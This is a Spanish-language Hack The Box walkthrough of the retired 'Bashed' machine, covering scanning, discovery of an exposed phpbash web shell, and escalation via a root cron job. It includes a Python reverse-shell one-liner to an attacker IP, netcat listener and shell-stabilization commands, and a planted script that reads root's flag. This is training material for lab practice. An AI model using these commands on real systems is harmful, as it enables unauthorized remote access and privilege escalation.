




Hoy vamos a hacer la maquina `Bashed` la cual es una maquina retirada, dificultad EASY.

Requerimientos para esta maquina:

- nmap
- dirsearch/feroxbuster (o similar)
- conocimientos basicos de programacion
- wordlists

## Links utiles
- https://www.revshells.com/
- https://github.com/y3rb1t4/htb-arg/blob/main/00-my-notes/shell-interactive.md
- https://www.kali.org/tools/feroxbuster/
- https://github.com/DominicBreuker/pspy?tab=readme-ov-file

## User Flag

Primero vamos a empezar por scanear la maquina con nmap:

```shell
nmap --open -T4 --min-rate 5000 -sV -o open -Pn 10.10.10.68
```

Esto nos va a dar como resultado lo siguiente:

```shell
Nmap scan report for 10.10.10.68 (10.10.10.68)
Host is up (0.25s latency).
Not shown: 906 closed ports, 93 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 20:32:21 2024 -- 1 IP address (1 host up) scanned in 15.96 seconds
```

Con la informacion de que solo el puerto 80 esta abierto, nos vamos a dirigir a la pagina web y ver que podemos encontrar.



Por lo visto es una app llamada phpbash, la cual se usa para ejecutar bash desde el navegador. Como ya nos encontramos en el index y no veo ninguna otra url, vamos a intentar buscar directorios con `feroxbuster`:

```shell
feroxbuster --insecure -u http://10.10.10.68/ -m GET,PUT,POST -o ferox -w ~/Documents/Security/wordlists/common.txt
```

Dentro de la respuesta larga que obtuvimos hay una url que me resulta interesante la cual es `http://10.10.10.68/dev/phpbash.php`. Vamos a entrar a esa url.



Efectivamente tenemos una shell aca, vamos a aprovechar y hacer una reverse shell para obtener acceso a la maquina.

```shell
nc -lvnp 4444
```

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```



Una vez que tenemos acceso a la maquina, vamos a estabilizar la shell.

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL + Z
stty raw -echo ; fg
export TERM=xterm
export SHELL=bash
```

Para encontrar el user.txt lo que hice primero fue hacer un `cd /home` para ver los usuarios de ahi intente entrar a la home de ambos, tanto `arrexels` como `scriptmanager`. En la de `arrexels` encontre el user.txt.

## Root Flag

Ahora para la root, vamos a intentar algo simple, `sudo -l` para ver que podemos hacer con sudo.

```shell
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Asi que lo primero que vamos a hacer es pasarnos a `scriptmanager` con `sudo -u scriptmanager /bin/bash` y luego vamos a ver que podemos hacer con este usuario.

Viendo el root, hay una carpeta que solo el usuario puede acceder `scriptmanager` la misma se llama `scripts` y dentro de ella hay un archivo llamado `test.py`.

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

No tiene nada interesante, veamos si este archivo se esta usando en algun lado, para eso vamos a usar una herramienta llamada `pspy` la cual nos va a mostrar los procesos que se estan ejecutando en la maquina.

Para eso vamos a necesitar subir esto, como las maquinas de htb no resuelven github como para poder hacer un wget, vamos a tener que hacer un `python -m http.server` y luego hacer un `wget` desde la maquina.

```shell
python -m http.server 8000
```

```shell
wget <ip>:8000/pspy64
```

```shell
chmod +x pspy64
./pspy64 test.py
```

```shell
2024/02/19 16:46:09 CMD: UID=0     PID=1      | /sbin/init noprompt 2024/02/19 16:47:01 CMD: UID=0     PID=1502   | python test.py 
2024/02/19 16:47:01 CMD: UID=0     PID=1501   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/02/19 16:47:01 CMD: UID=0     PID=1500   | /usr/sbin/CRON -f 
```

Esperando un rato por lo visto hay un cronjob que esta ejecutando todos los archivos `.py` que estan en la carpeta `scripts`. Vamos a hacer un script sencillo para obtener el root flag.

```py
import os; os.system('cat /root/root.txt >> flag.txt')
```

Con esto cuando el cronjob se ejecute, va a escribir el contenido de `root.txt` en `flag.txt`.



Felicitaciones! Si llegaste hasta aca es porque lograste hacer el root de la maquina `Bashed` de Hack The Box. Espero que hayas aprendido algo nuevo.